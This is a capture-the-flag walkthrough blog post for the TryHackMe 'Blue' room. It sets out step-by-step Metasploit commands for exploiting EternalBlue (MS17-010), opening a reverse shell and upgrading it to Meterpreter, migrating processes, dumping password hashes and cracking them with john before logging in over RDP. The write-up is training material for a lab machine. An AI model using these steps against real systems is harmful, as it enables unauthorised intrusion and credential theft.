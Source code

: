 ```yaml
---
layout: post
title: "Blue"
date: 2021-04-14
ctf: true
excerpt: "Walkthrough for Blue on TryHackMe"
tags: [ms17-010, metasploit, Windows, eternalblue]
comments: false
---
```


# Blue

Blue is the second room in the Offensive Security path on TryHackMe. Below is my walkthrough for the tasks for this room.

<details><summary><strong>Task 1 Hints</strong></summary>
<ul>
    <li>Have you deployed the machine and clicked on complete?
    <li>What popular port scanner can be used to answer the 2nd and 3rd questions for this task?
</ul>
</details>

<details><summary><strong>Task 2 Hints</strong></summary>
<ul>
    <li>Follow the information mentioned and launch Metasploit
    <li>How do you search for exploits in Metasploit?
    <li>What would you search for in this case?
</ul>
</details>

<details><summary><strong>Task 3 Hints</strong></summary>
<ul>
    <li>What post exploitation modules can be used to convert a TCP Shell to Meterpreter (Google it!)
    <li>Make sure you set the appropriate options!
    <li>Make sure your migrate step utilizes the correct system architecture.
</ul>
</details>

<details><summary><strong>Task 4 Hints</strong></summary>
<ul>
    <li>Two popular tools can be used to crack this password with a rather popular password list.
    <li>Make sure to indicate the correct hash format to crack the password.
</ul>
</details>

<details><summary><strong>Task 5 Hints</strong></summary>
<ul>
    <li>Follow the hints provided to uncover the 3 flags!
</ul>
</details>


## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1

#### Question 1

No answer is needed, just deploy the machine!

#### Question 2

![Blue Task 1 Question 2](/assets/img/Blue1.png)

This can easily be answered by running:

 **`threader3000`**

This will supply all of the open TCP ports on the box:

![Blue threader3000](/assets/img/Blue2.png)

Based on the results, the answer is 3 open ports (135, 139, 445).



#### Question 3

![Blue Task 1 Question 3](/assets/img/Blue3.png)

Let's run nmap on this box with the following parameters:

**`nmap -p135,139,445 --script vuln <victim ip>`**

This will run the vuln script in nmap and return results based on vulnerabilities uncovered.

![Blue nmap vuln script](/assets/img/Blue6.png)

In the output above, you will see both the CVE for this vulnerability (**CVE-2017-0143**) and the name designation from Microsoft (**ms17-010**), which is the answer to this question.

### Task 2

#### Question 1

No answer needed, just launch Metasploit with:

 **`msfconsole`**

#### Question 2

![Blue Task 2 Question 2](/assets/img/Blue7.png)

Once Metasploit has been launched, run the following to see all the exploits for the ms17-010 vulnerability:

**`search ms17-010`**

Several results will appear as shown below:

![Blue metasploit search ms17-010](/assets/img/Blue8.png)

The answer to this question is option 2 on this list **exploit/windows/smb/ms17_010_eternalblue**.

#### Question 3

The next question asks you which option needs to be set for this exploit:

![Blue Task 2 Question 3](/assets/img/Blue9.png)

This can be found by running the following within Metasploit:

**`show options`**

![Blue metasploit show options](/assets/img/Blue10.png)

The answer is **RHOSTS** as that is the only option that is not set by default. Set RHOSTS by using:

**`set RHOSTS <victim ip>`**

and then set your LHOST to your VPN IP address by running the following:

**`set LHOSTS tun0`**

![Blue metasploit set rhosts lhost](/assets/img/Blue11.png)

#### Question 4

With this set, type in either:

**`run`** or **`exploit`**

You should see output similar to that shown below:

![Blue metasploit eternalblue exploit](/assets/img/Blue12.png)



#### Question 5 

No answer is needed for this task. This exploit doesn't work 100% of the time so it is letting you know you may have to reboot the VM and try again.

### Task 3

#### Question 1

![Blue Task 3 Question 1](/assets/img/Blue14.png)

As mentioned above, background your shell with:

**`CTRL + Z`**  and then answer **`y`** to the prompt to background your session.

![Blue metasploit background session 1](/assets/img/Blue13.png)

For the post exploitation module, I did some Googling on shell to meterpreter, and came across [this](https://null-byte.wonderhowto.com/how-to/upgrade-normal-command-shell-metasploit-meterpreter-0166013/) article, which provides the answer to this question (**post/multi/manage/shell_to_meterpreter**).

![Blue metasploit post exploitation shell to meterpreter](/assets/img/Blue15.png)

#### Question 2

![Blue Task 3 Question 2](/assets/img/Blue16.png)

This next section asks you which option we're required to change. Let's run:

**`show options`** and you will notice a **SESSION** field. 

![Blue metasploit shell to meterpreter show options](/assets/img/Blue17.png)

#### Question 3

This needs to be modified to match the session number of your backgrounded session. Set this with:

**`set SESSION <session #>`**

![Blue metasploit set session](/assets/img/Blue19.png)

Once done, use either:

 **`run`** 

or

**`exploit`** 

to gain a Meterpreter shell.

#### Question 4

No answer needed, if this doesn't work, you might have to redo all of the prior steps in Metasploit.

#### Question 5

In order to know which session to select, run **sessions -l** to list all current active sessions in Metasploit.

![Blue metasploit list active sessions](/assets/img/Blue20.png)

You will notice 2 sessions: 1 with your reverse TCP shell, and another one with your Meterpreter shell. In this case, run the following to interact with the Meterpreter shell:

**`sessions -i 2`**

#### Question 6

This question asks you to run:

**`shell`**

to launch a shell on the remote machine followed by:

**`whoami`**

to confirm you are the NT AUTHORITY\SYSTEM user.

![Blue metasploit interact with session](/assets/img/Blue21.png)

#### Question 7

Next, let's background this shell with:

**`CTRL+Z`** followed by **`y`**

Next, run:

**`ps`**

to list processes running on the victim machine:

![Blue metasploit ps](/assets/img/Blue23.png)

#### Question 8

We are looking for a service that can be migrated to that is running as NT AUTHORITY\SYSTEM to find a process that is running as this user (as the service we are utilizing likely is not). Be mindful that the architecture of the service would need to match that of your shell (x64 in this case). This may take a few attempts to migrate to a process as it may fail. Migration is attempted with:

**`migrate <PID>`**

where PID is the process ID listed in the first column of the list from the **ps** command. A successful migration (after a few attempts) is shown below:

![Blue metasploit migrate](/assets/img/Blue24.png)

### Task 4

#### Question 1

Next, we're going to dump all the passwords on the victim machine. Follow the information provided in the question as shown below and run:

**`hashdump`**

![Blue metasploit hashdump](/assets/img/Blue25.png)

You should see output similar to that shown below, and there is one non-default user listed in this case, **Jon**.

![Blue metasploit hashdump](/assets/img/Blue26.png)

#### Question 2

![Blue Task 4 Question 2](/assets/img/Blue27.png)

Let's crack this password with **john**. First, on your attacker machine, copy the full line with the Jon user listed and echo it into a file with:

**`echo Jon:1000:....::: > hashes`**

To echo the hash into the hashes file. Next, let's run: 

**`john hashes --wordlist=/usr/share/wordlists/rockyou.txt --format=NT`**

This will attempt to crack the NT hash with the rockyou wordlist. After a couple minutes, the user's password will be displayed:

![Blue John](/assets/img/Blue28.png)

### Task 5

#### Question 1

Let's connect to this machine with Remote Desktop with **remmina**. Fill in the IP address of your victim machine once launched along with the user (**Jon**) and his password you cracked in the previous question.

![Blue Remmina rdp](/assets/img/Blue29.png)

After a couple moments, you will be presented with Jon's desktop as shown below.

![Blue Remmina Windows Desktop](/assets/img/Blue30.png)

Let's start looking for flags.

![Blue Task 5 Question 1](/assets/img/Blue31.png)

On Windows, the root of the system is typically **C:**. Let's open File Explorer and look around:

![Blue flag1](/assets/img/Blue32.png)

The first flag is located here in the flag1.txt file.

#### Question 2

![Blue Task 5 Question 2](/assets/img/Blue33.png)

This also provides a hint, this can be located at **C:\Windows\System32\config**

![Blue flag2](/assets/img/Blue34.png)

#### Question 3

![Blue Task 5 Question 3](/assets/img/Blue35.png)

The final flag is located at **C:\Users\Jon\My Documents** (as Jon is an administrator).

![Blue flag3](/assets/img/Blue36.png)

That's it! All flags have been uncovered!

</details>



